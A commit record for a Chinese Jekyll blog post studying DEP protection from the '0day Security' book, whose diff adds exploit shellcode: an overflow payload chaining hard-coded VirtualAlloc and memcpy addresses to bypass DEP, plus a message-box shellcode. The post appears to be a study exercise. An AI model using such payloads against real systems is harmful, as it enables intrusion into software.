

Before and after one commit to tearorca/tearorca.github.io, a Jekyll site: the page built from _posts/2019-3-29-《0day安全》DEP保护.md, in a window 1280 px wide and 1400 px high, scrolled down 29024 px. Shown: the part 475-1400 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2019-3-29-《0day安全》DEP保护.md

```diff
--- a/_posts/2019-3-29-《0day安全》DEP保护.md
+++ b/_posts/2019-3-29-《0day安全》DEP保护.md
@@ -639,3 +639,53 @@ VirtualAlloc函数的具体实现流程
 这里我和作者的不一样，我把弹窗的shellcode另外建了个数组，找到它的位置，然后直接从这个地址开始复制
 ![](http://ww1.sinaimg.cn/large/7fb67c86gy1g1kwul9s7gj21410moq5c.jpg)
 复制完之后我们再跳过去运行就可以了，这里因为memcpy的原因就不能继续往下试了。
+
+	char shellcode1[]=
+	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
+	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
+	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
+	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
+	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
+	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
+	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
+	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
+	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
+	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
+	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
+
+	"\xe5\x0b\x76\x7d"	  //ebp
+	"\x04\x9b\x80\x7c"    //VirtualAlloc
+	"\x90\x90\x90\x90"
+	"\xff\xff\xff\xff"
+	"\x11\x11\x03\x11"    //1
+	"\xff\x11\x11\x11"	  //2
+	"\x11\x10\x11\x11"	  //3
+	"\x40\x11\x11\x11"	  //4
+	"\x90\x90\x90\x90"
+
+	"\xe5\x0b\x76\x7d"
+	"\x90\x90\x90\x90"
+	"\x90\x90\x90\x90"
+	"\x90\x90\x90\x90"
+	"\x90\x90\x90\x90"
+
+	"\x70\x6f\xc1\x77"    //memcpy
+	"\x90\x90\x90\x90"
+	"\x90\x90\x90\x90"
+	"\x11\x11\x03\x11"
+	"\x01\x24\x51\x40"
+	"\x01\x01\x01\xa7"
+	;
+	char shellcode2[]=
+	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
+	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
+	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
+	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
+	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
+	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
+	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
+	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
+	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
+	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
+	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
+	;
```
